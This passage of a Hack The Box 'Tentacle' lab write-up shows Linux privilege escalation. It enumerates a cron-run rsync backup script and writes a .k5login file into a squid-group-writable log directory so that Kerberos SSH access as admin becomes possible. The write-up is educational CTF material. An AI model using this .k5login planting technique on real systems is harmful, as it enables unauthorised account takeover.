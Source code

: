 # Enumeration-
```bash
[j.nakazawa@srv01 home]$ ls -la
total 0
drwxr-xr-x.  4 root       root        37 Nov  3  2020 .
dr-xr-xr-x. 17 root       root       245 Dec 24  2020 ..
drwxr-x---.  3 admin      admin      168 Jun 26 23:54 admin
drwxr-x---.  2 j.nakazawa j.nakazawa 129 Jun 26 23:43 j.nakazawa
[j.nakazawa@srv01 home]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

The script is owned by root with the admin group:

```bash
[j.nakazawa@srv01 home]$  ls -l /usr/local/bin/log_backup.sh
-rwxr-xr--. 1 root admin 229 Dec  9  2020 /usr/local/bin/log_backup.sh
```

j.nakazawa can read the script:

```bash
[j.nakazawa@srv01 home]$ cat /usr/local/bin/log_backup.sh 
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

This script is using `rsync` to copy all the files from `/var/log/squid/` to `/home/admin/`, then create an archive using `tar`, and clean up.

### Abuse Kerberos-

An interesting feature of Kerberos on Linux is the `.k5login` file. This file in a user’s homedir lists different Kerberos principals (basically users) that can authenticate with their tickets to get access as the user. This is kind of like the `authorized_keys` file for Kerberos. So if admin had a `.k5login` file in their homedir with the name j.nakazawa in it, then anyone with a Kerberos ticket for j.nakazawa could SSH as admin.

I can put that `.k5login` file in place abusing the backup script if I can write to `/var/log/squid`. It looks like only admin and members of the squid group can write:

```bash
[j.nakazawa@srv01 home]$ ls -ld /var/log/squid/
drwx-wx---. 2 admin squid 41 Dec 24  2020 /var/log/squid/
[j.nakazawa@srv01 home]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users)
```

I’ll write a simple `.k5login` file:

```bash
[j.nakazawa@srv01 home]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
```


### Login as ROOT-

```bash
root@napster:~/Documents/HTB/Tentacle# ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Sun Jun 27 00:05:01 2021
[admin@srv01 ~]$ 

```